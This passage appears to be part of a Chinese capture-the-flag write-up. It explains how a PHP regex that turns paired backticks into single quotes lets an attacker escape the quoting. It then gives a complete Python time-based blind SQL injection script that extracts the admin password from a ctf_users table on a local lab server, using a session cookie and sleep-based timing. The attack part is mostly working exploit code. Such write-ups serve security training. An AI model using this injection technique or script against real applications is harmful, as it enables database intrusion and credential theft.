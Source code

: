 ```php
<?php   
 
 $str = "`123`";
 $value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$str).')';
 echo $value;
 echo "\n";
 $str2 = "`123`and database()#`";
 $value2 = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$str2).')';
 echo $value2;

?>
```

这段代码返回的结果如下：

```php
('123')
('123'and database()#`)
```

我们可以看到这个正则有个弊端，在于他会匹配成对出现的反引号，实现单引号逃逸，那我们可以采用时间盲注，

注册一个账号，登录后，贴上这个账号的cookie值。

```python
#coding:utf-8
import  string
import binascii
import requests
import re
payloads = "0123456789abcdef"
url = "http://127.0.0.1:8302/index.php?action=publish"
cookie={"PHPSESSID":"9dts0888kles53oft7u5bh3c03"}

inject = requests.session()
password=""
def dump_flag():
    password=""
    for i in range(1,33):
        for payload in payloads:
            ch = ord(payload)
            data = {
                "signature": "111`,3),(if(ascii(substring((select password from ctf_users where username=0x61646d696e),"+str(i)+",1))="+str(ch)+",sleep(5),0),3,4,5)#",
                "mood": 0
            }
            try:
                a = inject.post(url=url,data=data,cookies=cookie,timeout=5)
                #print(data)
            except:
                password = password +  payload
                print(password)
                break

dump_flag()
```
